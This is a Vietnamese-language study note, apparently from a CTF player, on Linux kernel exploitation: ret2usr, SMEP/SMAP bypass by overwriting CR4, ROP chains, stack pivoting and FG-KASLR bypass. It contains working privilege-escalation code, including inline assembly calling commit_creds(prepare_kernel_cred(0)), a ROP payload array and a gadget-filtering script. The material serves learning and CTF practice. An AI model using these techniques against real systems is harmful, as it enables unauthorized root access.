


# Tìm hiểu về kernel

## Nguồn tham khảo

https://hackmd.io/@ChinoKafuu/kernel

## Một số thông tin

- Thông thường khi tôi chơi ctf, quá trình debug tôi thấy rằng vùng địa chỉ từ 0x5.. đến 0x7fff mà tựa hỏi sau 0x7fff... là gì? Tại sao không đến 0xffff. Thì trong quá trình tìm hiểu kernel, tôi nhận thấy rằng, máy tính chia thành 2 phần là `user-land` và `kernel-land`. Dưới đây là vùng nhớ của 32/64 bit
  
- Khi chúng ta exploit các file bin, các tiến trình đang hoạt động ở user-land. Khi exploit kernel, ta có thể can thiệp cả user-land và kernel-land.
- Các thiết bị như bàn phím, chuột thường được xử lý ở user-land. Để tương tác với kernel-land, các process sẽ yêu cầu sự giúp đỡ từ kernel-land bằng `syscall`
- Có một số lớp bảo vệ nhưng chúng ta sẽ tìm hiểu sau.

### cách định nghĩa 1 fops

- Việc exploit sẽ là tương tác với 1 module kernel (file .ko - là một phần mở rộng của kernel, để có thể thêm chức năng mà không phải build lại kernel). Và như ở thông tin trên, ta chỉ có thể tương tác với kernel thông qua syscall, vậy làm sao để khi ta gọi 1 syscall read thì nó sẽ thực thi read trong kernel hay read trong module? Sau một hồi hỏi cung chatGPT thì tôi có 1 số thông tin như sau. Đầu tiên để tương tác với 1 module, ta cần mở file(hàm open(<tên file>, ...)). Thứ 2, trong module cần có một cấu trúc `file_operations` (fops) chứa các con trỏ trỏ đến các hàm xử lý trong module. Ví dụ

```
static struct file_operations fops = {
    .open = my_module_open,
    .read = my_module_read,
    .write = my_module_write,
    .release = my_module_release,
    // ...
};
```

```c
g_fd = open("/dev/hackme", O_RDWR);
read(g_fd, buf, sizeof(buf))
// thực thi hàm read trong module hackme
```

# setup debug

https://github.com/ysf/gef-bata

# Một số kĩ thuật khai thác kernel

- ret2user
  - status switch
- modify cr4 register
  - bypass smep
  - bypass smap
- kpti
  - fix cr3 register
  - swapgs_restore_regs_and_return_to_usermode()
- kernel information leak
  - useful kernel structure for UAF
- modprobe_path
- userfaultfd
  - race condition
- setxattr
  - setxattr + userfaultfd
- msg_msg
- signal handler

## ret2usr

```c
void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

void escalate_privs(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" // prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, 0xffffffff814c6410;" // commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;");
}

```

## modify cr4 register

- Reference: @ChinoKafuu, https://ctf-wiki.mahaloz.re/pwn/linux/kernel/bypass_smep/, https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/

### smep và smap

- `smep` ngăn chặn việc thực thi mã trong user mode từ kernel mode
- nó được bật bằng cách set bit thứ 20 của thanh ghi CR4.
- Enable thêm +smep vào ở -cpu và disable thêm nosmap vào -append
- `smap` ngăn chặn việc truy cập dữ liệu trong kernel mode từ user mode
- nó được bật bằng cách set bit thứ 21 của thanh ghi CR4.
  

### bypass

#### overwrite CR4

- Ta sẽ cố gắng set thanh ghi `rc4 = 0x6f0` bằng native_write_cr4(value)
- Đối với các kernel cũ thì ta chỉ cần `pop rdi`. Tuy nhiên các phiên bản kernel mới đã có chức năng `pin` các bit của `rc4` khiến chúng không thể bị overwrite

```c
void native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) { // check
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

#### ROP chain

- Cách thứ 2, ta có thể sử dụng các gadget

```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

- Điều kiện tốt nhất nếu ta có gadget `mov rdi, rax; ret` tuy nhiên nếu không gadget tốt nhất, ta sẽ phải set up tuỳ theo các gadget mà ta có:

```c
    payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8;                      // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret;     // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;             // commit_creds(prepare_kernel_cred(0))
```

#### stack pivot

- Trường hợp smap tắt
- Một ví dụ khi ta muốn stack pivot thành 0x5b000000

```c
void build_fake_stack(void){
    fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // dummy r12
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = pop_rdi_ret;
    ... // the rest of the chain is the same as the last payload
}
```

### KASLR

- Chức năng khá tương tự với ASLR ở userland, tuy nhiên KASLR như một bản nâng cấp mạnh mẽ. KASLR không chỉ random base address mà còn ngẫu nhiên thứ tự các hàm của module. Các phiên bản kernel mới đã thêm `FG-KASLR`. Tuy nhiên sẽ tồn tại những đoạn địa chỉ không chịu ảnh hưởng của `FG-KASLR` đó chính là `ksymtab`. Ta có cấu trúc `kernel_symbol` như sau:

```c
struct kernel_symbol {
	int value_offset;
	int name_offset;
	int namespace_offset;
};
```

- Như vậy, mục tiêu của chúng ta sẽ là leak `value_offset` từ đó tính toán được địa chỉ hàm bằng cách `ksymtab+value_offset`.

#### bypass

- Có một số cách để kiểm tra xem vùng địa chỉ nào không bị ảnh hưởng bởi KASLR
  
- Kiểm tra `/proc/kallsyms` [check-fgkaslr](https://github.com/Y3A/check-fgkaslr)

##### find_gadget.py

```py
#!/usr/bin/python3

f = open('gadgets.txt', 'r')
a = f.readlines()[2:]
b = []


for i in a[:-2]:
    if int(i.split()[0], 16) < 0xffffffff81400dc6:
        if ('mov' in i or 'pop' in i) and 'jmp' not in i:
            b.append(i)

for j in b:
    print(j)

print(len(b))
```

`0xffffffff81400dc6 is because the base address shown by ROPgadget is 0xffffffff81000000, and the previous script tells us that the text segment with offsets lower than 0x400dc6 is not affected by FGKASLR`
